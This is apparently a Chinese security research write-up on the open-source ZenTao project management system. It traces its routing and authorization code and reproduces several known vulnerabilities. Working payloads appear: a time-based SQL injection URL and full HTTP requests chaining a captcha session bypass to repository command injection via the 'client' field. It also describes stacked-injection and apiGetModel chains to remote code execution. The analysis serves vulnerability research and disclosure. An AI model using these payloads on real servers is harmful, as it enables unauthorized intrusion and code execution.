









# 禅道

禅道分为开源版、商业版、企业版等，以下分析都是基于开源版。

前台可以直接访问和查询禅道具体的版本和版本号：`/?mode=getconfig`，其实在index.php页面可以跟进查看是获取配置内容的。根据[官方视频](https://www.zentao.net/faqvideo/viewing-the-version-number-80998.html)还可以在源码中查看：


根据18.0.beta3版本的目录结构，主要的代码功能都在`module`文件夹，配置文件在`config`中。my.php是允许自定义的配置，其他配置是禅道自己设定的默认配置文件。


参考官方的一些说明和文档帮助快速上手：

使用手册：https://www.zentao.net/book/zentaopms/38.html

二次开发说明：https://www.zentao.net/book/extension-dev/custom-dev-1319.html、https://www.zentao.net/book/api/setting-369.html

补丁（含说明）：https://www.zentao.net/extension-browse-1218.html

## 1. web页面路由分析

禅道支持get、伪静态两种方式路由格式。以下代码分析版本为禅道20.1版本。

访问web页面的入口文件`www/index.php`引入包含四个路由、控制器、模型和helper函数的php文件。

```php
include '../framework/router.class.php';
include '../framework/control.class.php';
include '../framework/model.class.php';
include '../framework/helper.class.php';
```

$app通过router::createApp创建初始化后并返回router对象（router类同时继承baseRouter）。

```php
/* Instance the app. */
$app = router::createApp('pms', dirname(dirname(__FILE__)), 'router');
```

router实例化触发__construct，实现多项程序配置。

```php
public function __construct(string $appName = 'demo', string $appRoot = '', string $mode = 'running')
    {
        if($mode != 'running') $this->{$mode} = true;

        $this->setPathFix();
        $this->setBasePath();
        $this->setFrameRoot();
        $this->setCoreLibRoot();
        $this->setAppRoot($appName, $appRoot);
        $this->setTmpRoot();
        $this->setCacheRoot();
        $this->setLogRoot();
        $this->setConfigRoot();
        $this->setModuleRoot();
        $this->setWwwRoot();
        $this->setThemeRoot();
        $this->setDataRoot();
        $this->loadMainConfig();

        $this->loadClass('front',  $static = true);
        $this->loadClass('filter', $static = true);
        $this->loadClass('form',   $static = true);
        $this->loadClass('dbh',    $static = true);
        $this->loadClass('sqlite', $static = true);
        $this->loadClass('dao',    $static = true);
        $this->loadClass('mobile', $static = true);

        $this->setCookieSecure();
        $this->setDebug();
        $this->setErrorHandler();
        $this->setTimezone();

        if($this->config->framework->autoConnectDB) $this->connectDB();

        $this->setupProfiling();
        $this->setupXhprof();

        $this->setEdition();

        $this->setClient();

        $this->loadCacheConfig();
    }
```

其中$this->loadMainConfig()加载config目录下默认的config.php文件。默认配置加载完成后，启程继续加载一些个性化设置：

```php
$app->setStartTime($startTime);
$common = $app->loadCommon(); //baseRouter::loadCommon()
```

跟进baseRouter::loadCommon()发现调用$common->setUserConfig()进行用户配置设定。其方法又分别从数据库zt_config和zt_lang（数据库前缀为zt）加载配置信息。

```php
public function setUserConfig()
    {
        $this->sendHeader();
        $this->setCompany();
        $this->setUser();
        $this->setApproval();
        $this->loadConfigFromDB();
        $this->loadCustomFromDB();
        $this->initAuthorize();

        if(!$this->checkIP()) return print($this->lang->ipLimited);
    }
```

其中loadConfigFromDB通过baseRouter::mergeConfig覆盖$this->config.

```php
public function loadConfigFromDB()
    {
        /* Get configs of system and current user. */
        $account = isset($this->app->user->account) ? $this->app->user->account : '';
        if($this->config->db->name) $config = $this->loadModel('setting')->getSysAndPersonalConfig($account);
        $this->config->system   = isset($config['system']) ? $config['system'] : array();
        $this->config->personal = isset($config[$account]) ? $config[$account] : array();

        $this->commonTao->updateDBWebRoot($this->config->system);

        /* Override the items defined in config/config.php and config/my.php. */
        if(isset($this->config->system->common))   $this->app->mergeConfig($this->config->system->common, 'common');
        if(isset($this->config->personal->common)) $this->app->mergeConfig($this->config->personal->common, 'common');

        $this->config->disabledFeatures = $this->config->disabledFeatures . ',' . $this->config->closedFeatures;
    }
```

loadCustomFromDB则将zt_lang配置赋值给$this->lang->db->custom.

加载完配置信息后全部return回index.php，在后面有分别对参数、权限、模块加载进行处理：

```php
try
{
    $app->parseRequest();//baseRouter::parseRequest() 根据请求的类型(PATH_INFO/GET)，调用解析url
    if(!$app->setParams()) helper::end();//baseRouter::setParams()参数设置
    $common->checkPriv();//权限检测
    if(!$common->checkIframe()) helper::end();

    if(session_id() != $app->sessionID && strpos($_SERVER['HTTP_USER_AGENT'], 'xuanxuan') === false) helper::restartSession($app->sessionID);

    $app->loadModule();//模块加载
}
```

### 1.1 解析url

baseRouter::parseRequest()根据请求的类型(PATH_INFO/GET)调用解析url，不论哪种类型都会最后都会经过router::setControlFile()处理。

注意，多数文章分析此处路由的代码选用的是baseRouter::setControlFile，但在php中$app是router实例化对象，继承baseRouter（父类），调用方法优先级是先调用子类自己的方法然后调用父类。setControlFile子类和父类都有，但是子类重写后，根据实例化对象是router的，调用的应该是子类的方法。



开源版默认$this->config->edition为open（config/config.php查看），所以默认会调用父类baseRouter::setControlFile：

```php
public function setControlFile(bool $exitIfNone = true)
    {
        $this->controlFile = $this->getModulePath() . 'control.php';
        if(file_exists($this->controlFile)) return true;
        $this->triggerError("the control file $this->controlFile not found.", __FILE__, __LINE__, $exitIfNone);
    }
```

### 1.2 参数设置

进入baseRouter::setParams()进行参数设置，首先通过baseRouter::getDefaultParams()获取参数，然后根据路由类型设置参数（setParamsByPathInfo设置伪静态路由的参数）。

```php
    public function setParams()
    {
        try
        {
            $defaultParams = $this->getDefaultParams();
            if($this->config->requestType != 'GET')
            {
                $this->setParamsByPathInfo($defaultParams);
            }
          ......
```

baseRouter::getDefaultParams()引入模块control文件，先判断是否是插件extension中的文件：



跟进setActionFile()可得插件路由`/zentao/插件目录名/模块名/方法名/....`。引入后判断是否加密，根据代码注释加密方式是ioncube。



之后实例化该control类，最后通过反射机制获取函数参数默认值。



## 2. 权限分析

设置完参数，进行权限校验commonModel::checkPriv。$openMethods数组存储的是允许未授权访问的方法，除此之外还能在isOpenMethod方法中判定是否可以未授权访问。除了这两处，其他的都要通过鉴权。鉴权可以是判断用户登录没有（userModel::isLogon方法，登陆方法在user::login()->userZen::login方法->userModel::identify验证方法），如果没有登录还可以通过cookie（identifyByCookie）或者php server用户认证（identifyByPhpAuth）。



不论是哪种方式本质都是通过userModel::identifyUser验证用户和密码，默认通过比对32位md5值校验。**这里不是恒等于强类型校验，没有校验类型，属于弱类型校验🐶。**



同时看到这里直接是hash比对，所以如果是sql注入获取到hash值，那么可以直接利用登陆了🐶


梳理未授权方法的路由可以通过isOpenMthod、$this->config->openMethods、$openMethods。isOpenMthod方法列举了index、my、product、misc和tutorial部分哪些方法可以未授权访问。

```php
public function isOpenMethod(string $module, string $method): bool
    {
        if(in_array("$module.$method", $this->config->openMethods)) return true;

        if($module == 'block' and $method == 'main' and isset($_GET['hash'])) return true;

        if($this->loadModel('user')->isLogon() or ($this->app->company->guest and $this->app->user->account == 'guest'))
        {
            if(stripos($method, 'ajax') !== false) return true;
            if($module == 'block' && stripos(',dashboard,printblock,create,edit,delete,close,reset,layout,', ",{$method},") !== false) return true;
            if($module == 'index'    and $method == 'app') return true;
            if($module == 'my'       and $method == 'guidechangetheme') return true;
            if($module == 'product'  and $method == 'showerrornone') return true;
            if($module == 'misc'     and in_array($method, array('downloadclient', 'changelog'))) return true;
            if($module == 'tutorial' and in_array($method, array('start', 'index', 'quit', 'wizard'))) return true;
        }
        return false;
    }
```

$this->config->openMethods则可以大部分能在config/zentaopms.php查看，少部分在代码中有增加定义，常见搜索关键词`config->openMethods[]`能找到。

## 3. 历史漏洞

| 漏洞名称                                                     | 访问url                                                      | 版本范围                                                     |
| ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| 【CNVD-2022-42853】baseRouter::setVersion SQL注入            | /zentao/?account=                                            | 开源版<=16.5，16.5beta1 <br />企业版<=6.5，6.5beta1 <br />旗舰版<=3.0，3.0beta1 |
| 【CNVD-2023-02709】验证码session获取+仓库命令注入            | /zentao/misc-captcha-user<br />/zentao/repo-create<br />/zentao/repo-edit-10000-10000 | 17.4<= version <=18.0.beta1（开源版）<br />3.4<= version <=4.0.beta1（旗舰版）<br />7.4<= version <=8.0.beta1（企业版） |
| 验证码session获取+convert-importNotice SQL堆叠注入+定时任务RCE | /zentao/misc-captcha-user<br />/zentao/covert-importNotice   | 17.4<= version <=18.0.beta1（开源版）<br />3.4<= version <=4.0.beta1（旗舰版）<br />7.4<= version <=8.0.beta1（企业版） |
| custom::ajaxSaveCustomFields+apiGetModel功能+repoModel::checkConnection仓库命令注入 | /zentao/?m=custom&f=ajaxSaveCustomFields                     | <=18.5（开源版）                                             |
| 【QVD-2024-15263】testcase::saveXmindImport身份认证绕过漏洞  | /api.php?m=testcase&f=savexmindimport                        | 16.x <= 禅道项目管理系统< 18.12（开源版）<br/>6.x <= 禅道项目管理系统< 8.12（企业版）<br/>3.x <= 禅道项目管理系统< 4.12（旗舰版） |

### 3.1 【CNVD-2022-42853】baseRouter::setVersion SQL注入

`baseRouter::setVision()【/zentao/framework/base/router.class.php】`方法没有对`$account`过滤直接拼接到sql语句并执行，存在SQL注入。


根据上文路由分析可知该函数在index.php初始路由的时候就有调用setVision，因此触发只用在请求中get或post添加上account参数，并直接写入payload即可（比如如下延时注入payload）：

`http://x.x.x.x/index.php?account=admin' AND (SELECT 1337 FROM (SELECT(SLEEP(5)))a)-- b`

### 3.2 【CNVD-2023-02709】验证码session获取+仓库命令注入

#### 3.2.1 突破权限获取session

根据路由分析可以知道checkPriv方法是鉴权的方法，其中会检查当前用户是否登陆（userModel::isLogon()方法），该方法内部判断当前$this->session->user是否存在。

```php
public function isLogon()
    {
        $user = $this->session->user;
        return ($user && !empty($user->account) && $user->account != 'guest');
    }
```

查找可以设置session[user]或者任意session的地方。发现module/misc/control.php中captcha方法能设置任意key的session：


#### 3.2.2 后台仓库功能命令注入

在后台发现有一处命令注入的地方，module/repo/model.php的checkConnection函数会进行SCM=Subversion判断，$client是导致命令注入的参数点，之后进行exec命令执行：


调用该函数的有create和update方法，两个方法之间都需要经过checkClient方法，其值返回为真才能进行后续操作。

checkClient方法SCM设置为Gitlab可以固定返回为true。


checkConnection分支只对Subversion、Gitea和Gogs以及Git做处理，其他的不做处理直接返回true。


update方法调用的checkConnection也需要经过checkClient判断，要绕过这个判断进行exec命令注入的话，不能继续用SCM（大小写敏感，在http包的时候）设置为Gitlab这个选项，因此回到checkClient查看代码。

```php
public function update($id)
    {
        $repo = $this->getRepoByID($id);

        $isPipelineServer = in_array(strtolower($this->post->SCM), $this->config->repo->gitServiceList) ? true : false;

        $data = fixer::input('post')
            ->setIf($isPipelineServer, 'password', $this->post->serviceToken)
            ->setIf($this->post->SCM == 'Gitlab', 'path', '')
            ->setIf($this->post->SCM == 'Gitlab', 'client', '')
            ->setIf($this->post->SCM == 'Gitlab', 'extra', $this->post->serviceProject)
            ->setDefault('prefix', $repo->prefix)
            ->setIf($this->post->SCM == 'Gitlab', 'prefix', '')
            ->setDefault('client', 'svn')
            ->setDefault('product', '')
            ->skipSpecial('path,client,account,password')
            ->join('product', ',')
            ->get();

        if($data->path != $repo->path) $data->synced = 0;

        $data->acl = empty($data->acl) ? '' : json_encode($data->acl);

        if($data->SCM == 'Subversion' and $data->path != $repo->path)
        {
            $scm = $this->app->loadClass('scm');
            $scm->setEngine($data);
            $info     = $scm->info('');
            $infoRoot = urldecode($info->root);
            $data->prefix = empty($infoRoot) ? '' : trim(str_ireplace($infoRoot, '', str_replace('\\', '/', $data->path)), '/');
            if($data->prefix) $data->prefix = '/' . $data->prefix;
        }
        elseif($data->SCM != $repo->SCM and $data->SCM == 'Git')
        {
            $data->prefix = '';
        }

        if($data->client != $repo->client and !$this->checkClient()) return false;
        if(!$this->checkConnection()) return false;

        if($data->encrypt == 'base64') $data->password = base64_encode($data->password);
        $this->dao->update(TABLE_REPO)->data($data, $skip = 'serviceToken')
            ->batchCheck($this->config->repo->edit->requiredFields, 'notempty')
            ->batchCheckIF($data->SCM != 'Gitlab', 'path,client', 'notempty')
            ->batchCheckIF($isPipelineServer, 'serviceHost,serviceProject', 'notempty')
            ->batchCheckIF($data->SCM == 'Subversion', $this->config->repo->svn->requiredFields, 'notempty')
            ->check('name', 'unique', "`SCM` = '{$data->SCM}' and `id` <> $id")
            ->checkIF($isPipelineServer, 'serviceProject', 'unique', "`SCM` = '{$data->SCM}' and `serviceHost` = '{$data->serviceHost}' and `id` <> $id")
            ->checkIF(!$isPipelineServer, 'path', 'unique', "`SCM` = '{$data->SCM}' and `serviceHost` = '{$data->serviceHost}' and `id` <> $id")
            ->autoCheck()
            ->where('id')->eq($id)->exec();

        $this->rmClientVersionFile();

        if($data->SCM == 'Gitlab') $data->path = $this->getRepoByID($id)->path;

        if($repo->path != $data->path)
        {
            $this->dao->delete()->from(TABLE_REPOHISTORY)->where('repo')->eq($id)->exec();
            $this->dao->delete()->from(TABLE_REPOFILES)->where('repo')->eq($id)->exec();
            return false;
        }
      
        return true;
    }
```

update方法在SCM设置为Gitab，会进行rmClientVersionFile方法。这个方法的内容在checkClient也存在。


该方法主要是用于移除client version file，在checkClient里面也有相同代码。而payload中创建好了仓库编辑仓库内容触发module/repo/control.php的edit方法，实际调用了module/repo/model.php的update方法。因此，先通过create创建好仓库绕过checkClient，然后通过edit修改scm触发checkConnection直接执行命令。


#### 3.2.3 漏洞复现

- 获取session

访问`http://x.x.x.x/zentao/misc-captcha-user.html`在f12控制台-应用选项卡可以获取到zentaosid（cookie）：


- 创建并制定仓库为GItlab

```http
POST /zentao/repo-create.html HTTP/1.1
Host: x.x.x.x
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://x.x.x.x/zentao/user-login-L3plbnRhby8=.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: zentaosid=d53959592d07ca9e6e0bf25ef479a0c2; lang=zh-cn; device=desktop; theme=default
Connection: close
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://x.x.x.x/repo-edit-1-0.html
Content-Length: 111

product%5B%5D=1&SCM=Gitlab&name=66666&path=&encoding=utf-8&client=&account=&password=&encrypt=base64&desc=&uid=
```

- 执行命令

```http
POST /zentao/repo-edit-10000-10000.html HTTP/1.1
Host: x.x.x.x
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: zentaosid=d53959592d07ca9e6e0bf25ef479a0c2; lang=zh-cn; device=desktop; theme=default
Connection: close
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://x.x.x.x/repo-edit-1-0.html
Content-Length: 30

SCM=Subversion&client=`id`
```

### 3.3 验证码session获取+convert-importNotice SQL堆叠注入+定时任务RCE

除了命令注入，禅道因为使用pdo方式执行mysql语句，允许多条语句执行，并且虽然有链式操作进行增删改查等，但仍然存在直接拼接参数到sql语句中然后直接执行的地方，所以获取权限后也可以通过sql注入RCE。通过搜索php拼接的方式可以找到很多直接拼接的sql语句，其中`convertModel::dbExists()`方法$dbName直接拼接的。

```php
public function dbExists($dbName = '')
    {
        $sql = "SHOW DATABASES like '{$dbName}'";
        return $this->dbh->query($sql)->fetch();
    }
```

回溯dbExists方法被调用的地方，在convert::importNotice()调用且没有对外部数据进行过滤：



如果只是单纯的注入获取敏感信息就到此为止了，但是因为允许多条语句执行，可以通过堆叠注入。cron::ajaxExec()方法是执行后台设置定时任务的方法：



在创建计划任务时会对进行检测如果为`system`则不能进入分支，所以可以先创建任意命令的定时任务，然后通过该漏洞进行堆叠注入修改。

详细的复现过程可以参考：https://blog.evi1s.com/2023/01/13/Zentao-RCE/#Cron-to-RCE

### 3.4 custom::ajaxSaveCustomFields+apiGetModel功能+repoModel::checkConnection仓库命令注入

分析第二个漏洞得知仓库checkConnection存在exec函数，调用该函数需要经过仓库create或update，目的为了绕过checkClient函数。分析完第二个漏洞之后，我想到禅道存在一个功能是超级Model功能，该功能旨在允许调用任意api接口，方便配置第三方服务。低版本中（比如11.6）存在不少漏洞因为未授权就可以滥用它导致sql注入、命令执行、任意文件读取等漏洞，后续再高版本中默认关闭了该功能。要开启该功能，需要到config/config.php修改`$config->features->apiGetModel`配置，设置为true。

custom::ajaxSaveCustomFields是设置custom fields配置的方法，该方法在禅道18.5版本以下没有对$module、$section、$key、$fields任何外部变量过滤，就直接调用$this->loadModel('setting')->setItem(...)进行配置设置。

```php
public function ajaxSaveCustomFields($module, $section, $key)
    {
        $account = $this->app->user->account;
        if($this->server->request_method == 'POST')
        {
            $fields = $this->post->fields;
            if(is_array($fields)) $fields = join(',', $fields);
            $this->loadModel('setting')->setItem("$account.$module.$section.$key", $fields);
            if(in_array($module, array('task', 'testcase', 'story')) and $section == 'custom' and in_array($key, array('createFields', 'batchCreateFields'))) return;
            if($module == 'bug' and $section == 'custom' and $key == 'batchCreateFields') return;
        }
        else
        {
            $this->loadModel('setting')->deleteItems("owner=$account&module=$module&section=$section&key=$key");
        }

        return print(js::reload('parent'));
    }
```

loadModel是禅道加载各类模块下model文件的函数，这里通过它加载并调用了settingModel::setItem()方法，该方法本质就是修改zt_config数据表的配置。

```php
public function setItem($path, $value = '')
    {
        $item = $this->parseItemPath($path);
        if(empty($item)) return false;

        $item->value = $value;
        $this->dao->replace(TABLE_CONFIG)->data($item)->exec();
    }
```

zt_config又根据之前分析路由可以得知程序会从读取zt_config表进行覆盖程序$this->config。通过这个方法可以直接修改`$config->features->apiGetModel`配置，开启apiGetModel。apiGetModel就是api::getModel()，内部通过call_user_func_array实现任意代码执行。

```php
public function getModel($moduleName, $methodName, $params = '')
    {
        if(!$this->config->features->apiGetModel) return printf($this->lang->api->error->disabled, '$config->features->apiGetModel');

        $params    = explode(',', $params);
        $newParams = array_shift($params);
        foreach($params as $param)
        {
            $sign       = strpos($param, '=') !== false ? '&' : ',';
            $newParams .= $sign . $param;
        }

        parse_str($newParams, $params);
        $module = $this->loadModel($moduleName);
        $result = call_user_func_array(array(&$module, $methodName), $params);
        if(dao::isError()) return print(json_encode(dao::getError()));
        $output['status'] = $result ? 'success' : 'fail';
        $output['data']   = json_encode($result);
        $output['md5']    = md5($output['data']);
        $this->output     = json_encode($output);
        print($this->output);
    }
```

https://mp.weixin.qq.com/s/o6FDDESJdluob9m6E8dqOQ

这篇文章讲到了上述漏洞链条，文章中说该漏洞鸡肋需要修改配置。但是我们在分析路由白名单判定的isOpenMethod可以看到：



除了用户登录之外，如果当前设置了$this->app->company->guest，并且当前为guest用户，ajax开头的任何方法都可以进行访问。$this->app->company->guest是禅道允许可以配置的[匿名用户功能](https://www.zentao.net/book/zentaopmshelp/58.html)。因为禅道是项目管理软件，这种功能主要是想让子公司或者外包能够不登陆就能看到某些页面或者工作需求等，这种情况（并且情况也不少这种）能够实现未授权RCE。

### 3.5 【QVD-2024-15263】testcase::saveXmindImport身份认证绕过漏洞

这篇分析很多，可以参考https://www.freebuf.com/vuls/401143.html。

绕过思路也就是找$this->session->set地方，除了在captach验证吗方法中有，还在deny方法里面也找到了，从而能设置到session绕过身份认证。


